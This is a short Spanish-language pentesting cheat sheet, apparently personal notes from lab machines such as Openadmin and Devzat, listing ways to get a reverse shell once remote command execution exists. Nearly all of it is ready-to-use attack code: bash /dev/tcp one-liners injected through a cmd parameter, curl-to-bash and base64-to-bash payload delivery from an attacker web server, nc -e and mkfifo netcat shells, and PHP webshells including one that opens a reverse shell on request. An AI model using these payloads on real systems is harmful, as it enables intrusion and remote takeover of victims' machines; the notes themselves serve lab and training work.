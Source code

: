 ```yaml
---
title: Conseguir Reverse Shell
author: guiseporaki
date: 2023-02-24
categories: [Linux, Cajon Verde]
tags: [Linux, Reverse Shell]
---
```

## Maneras de lanzarme una reverse shell

En todos los casos se entiende que tengo ejecución remota de comandos(RCE) y tengo el netcat en escucha por un puerto:
```
> nc -nlvp 443
```
[monkey]:https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Tienes varias formas de realizar una reverse shell en la página de [monkeypentester][monkey].

Caso 1 - Directo:  
Me pongo en escucha por el 443, entonces en el navegador, después del parámetro/argumento que te permita la ejecución, escribo:  
`?cmd=bash -c 'bash -i >& /dev/tcp/Mi_Ip/puerto 0>&1'`  
Si no te llega la bash prueba a url-encodear el &, url-encodeado sería %26

Caso 2 - Index.html y bash:

Otra forma diferente a la anterior, porque el **bash -i** a veces puede dar problemas por url. Despúes del parámetro que sea:  
`which curl` ,si no está en la máquina, intenta `which wget`  

Ahora si cuento con alguna de ellas me monto un servidor web con python:  
`python -m http.server 80`  
Y en la misma carpeta que comparto el servidor creo un index.html que se ejecutará cuando se conecte la víctima interpretándolo con el bash que indique en el comando. Ese index.html es así:  
``` bash
#!/bin/bash
bash -i >& /dev/tcp/miip/puerto 0>&1
```
Y ahora desde el RCE ejecuto esta instrucción; `curl http://Mi_ip|bash`  
Un ejemplo en la máquina **Openadmin**.  

En máquina **Devzat** se pasa a base64 porque no dispone de curl. Se hace esto: 
```
> base64 -w 0 index.html
```
Y ya desde el RCE:  
`echo <cadenaenBase64>| base64 -d|bash`

Caso 3 - Con Netcat:

`nc -e /bin/bash <miip> 443`  
Si en algún momento ves que no os entabla la reverse shell probar:  
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc MIIP MIPUERTO >/tmp/f`  
Hay casos que nc no tiene la opción -e y tenéis que tirar de el nc antiguo.

Caso 4 - FakeShell:

Contexto: En máquina **Scavenger** tenemos rce via web desde un php de la máquina objetivo. Probamos a lanzarnos una reverse pero no hay manera, tanto con el nc ,con bash -c, con wget, curl..pero nada.  
Asi que s4vi se construye una **fakeshell** con bash.

Caso 5 - Mediante WebShells:

Estructuras tipo webshells mediante subida archivo php:

``` php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
``` php
<?php system($_GET['cmd']); ?>
```
Recuerda que llamas directamente al archivo php que esta alojado dentro de la máquina víctima, seguido del ?cmd=COMANDO  
cmd es el parámetro que le solemos poner pero puede ser cualquier otro.

Recuerda el comando **phpinfo()** para saber que funciones hay deshabilitadas y y cuales no.

Si quisieras lanzar reverse directamente desde el php subido ya no sería webshell, y es así:  
``` php
<?php
   system("bash -c ' bash -i >& /dev/tcp/<miIp>/443 0>&1'");
?>
```
Con llamar al archivo bastaría.











